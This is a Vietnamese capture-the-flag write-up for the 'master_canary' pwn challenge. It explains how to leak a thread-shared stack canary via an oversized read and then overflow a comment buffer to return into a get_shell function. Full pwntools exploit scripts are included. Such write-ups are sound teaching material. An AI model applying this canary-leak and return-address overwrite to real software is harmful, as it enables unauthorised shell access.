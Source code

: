 # Master canary
# Thông tin về challenge

```
master_canary: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, not stripped
```

Chế độ bảo vệ

```
Canary                        : ✓
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

Ta thấy có lớp bảo vệ Canary được bật

Liệt kê những đoạn quan trọng của code

```c
int main(int argc, char *argv[])
{
    size_t size;
    pthread_t thread_t;
    size_t idx;
    char leave_comment[32];

    initialize();

    while (1)
    {
        printf("1. Create thread\n");
        printf("2. Input\n");
        printf("3. Exit\n");
        printf("> ");
        scanf("%d", &idx);

        switch (idx)
        {
        case 1:
            if (pthread_create(&thread_t, NULL, thread_routine, NULL) < 0)
            {
                perror("thread create error");
                exit(0);
            }
            break;
        case 2:
            printf("Size: ");
            scanf("%d", &size);

            printf("Data: ");
            read_bytes(global_buffer, size);

            printf("Data: %s", global_buffer);
            break;
        case 3:
            printf("Leave comment: ");
            read(0, leave_comment, 1024);
            return 0;
        default:
            printf("Nope\n");
            break;
        }
    }

    return 0;
}
```

Chương trình cho ta nhập 3 lựa chọn <br>
* `case 1: ` tạo một thread và bắt đầu thực thi từ hàm `void *thread_routine()` <br>

```c
char *global_buffer; // global
void *thread_routine() {
    char buf[256];

    global_buffer = buf;
}
```

* `Case 2: ` Yêu cầu nhập vào một size và đọc dữ liệu vào với độ dài bằng size bằng hàm `read_bytes(global_buffer, size);`, sau đó chương trình sẽ in dữ liệu ta vừa nhập vào (phần này để leak canary)

```c
void read_bytes(char *buf, size_t size)
{
    size_t sz = 0;
    size_t idx = 0;
    size_t tmp;

    while (sz < size)
    {
        tmp = read(0, &buf[idx], 1);
        if (tmp != 1)
        {
            exit(-1);
        }
        idx += 1;
        sz += 1;
    }
    return;
}
```
* `case 3: ` yêu cầu nhập vào `    char leave_comment[32]` 1024 byte và ở đây gây ra lỗi `BOF` <br>
Và chương trình còn cho ta một hàm để lấy shell nhưng không được gọi bởi hàm main
```c
void get_shell()
{
    system("/bin/sh");
}
```
# Exploit
Vì chương trình cho hàm `get_shell()` nên mục tiêu của ta sẽ là làm sao để chương trình thực thi được hàm này.<br>
Ý tưởng ở đây là ta sẽ lợi dùng lỗi `bof` ở `case 3` để chuyển hướng thực thi.<br>
Tuy nhiên như ở trên ta thấy lớp bảo vệ `Canary` được bật vì vậy nếu ghi đè như bình thường thì sẽ không được.<br> 
Và ta sẽ phải đi tìm giá trị của canary.
# GDB debug
![Alt text](image-1.png)
Dòng được gạch chân là dấu hiệu của canary được tạo ngẫu nhiên và được lưu ở vị trí fs+0x28 (rõ hơn là ở `fs_base+0x28`)<br>
```c
Canary  : (value: 0x57ccd7ce0a2a8600)
```
Đặc điểm giá trị của canary là đều có byte 00 ở cuối, mà hàm printf sẽ không đọc khi gặp byte 00 vì vậy ta sẽ chèn 1 byte ở cuối để khi printf ta sẽ lấy được giá trị của canary. <br>

Đầu tiên ta chọn option 1 và nhảy đến hàm `thread_routine()`<br>

![Alt text](image-2.png)
Ở hàm này ta thấy canary cũng đừng lấy từ fs:0x28 giống với hàm main(), do đó các hàm đều dùng chung 1 giá trị canary<br>

Vì buf được nhập nên ta sẽ tìm địa chỉ của buf và tính offset của nó tới canary.<br>

![Alt text](image-3.png)
`&buf = rbp-0x110 = 0x007ffff7d7dd40` 

![Alt text](image-4.png)
`&canary = 0x7ffff7d7e668`

`offset = &canary - &buf = 2344`
Tuy nhiên ta cần thêm 1 byte để ghi đè byte 00 của canary nên `offset = 2345` 

* script leak canary
```python
from pwn import *

p = process('./master_canary')

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'Size: ', b'2345')
payload = b'a'*2345
p.sendafter(b'Data: ', payload)
p.recvuntil(payload)
canary = int.from_bytes(p.recv(7), 'little') << 8
log.info("Canary: " + hex(canary))
p.interactive()
```
* lưu ý ở đây canary nhận được là 8 byte nhưng byte cuối là bất kì, để lấy được canary đúng nhất thì ta chỉ nhận 7 byte và dịch 8 bit để byte là 00 `canary = int.from_bytes(p.recv(7), 'little') << 8` <br>
Sau khi leak được canary thì chương trình lại quay lại từ đầu để chọn các option, bây giờ ta chọn option 3. <br>

```c
case 3:
    printf("Leave comment: ");
    read(0, leave_comment, 1024);
    return 0;
```
xem stack
![Alt text](image-5.png)
phần ghạch đỏ là giá trị canary nằm trước rbp và ta phải ghi lại giá trị của địa chỉ này. <br>

* payload hoàn chỉnh
```python
from pwn import *

exe = ELF('./master_canary')
p = process(exe.path)

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'Size: ', b'2345')
payload = b'a'*2345
p.sendafter(b'Data: ', payload)
p.recvuntil(payload)
canary = int.from_bytes(p.recv(7), 'little') << 8
log.info("Canary: " + hex(canary))


p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'> ', b'3')

payload = b'a'*40 # offset canary va leave_comment
payload += p64(canary)
payload += b'b'*8 # ghi de rbp
payload += p64(exe.sym['get_shell'] + 2)
p.sendafter(b'comment: ', payload)

p.interactive()
```
![Alt text](image-6.png)

Lấy được shell

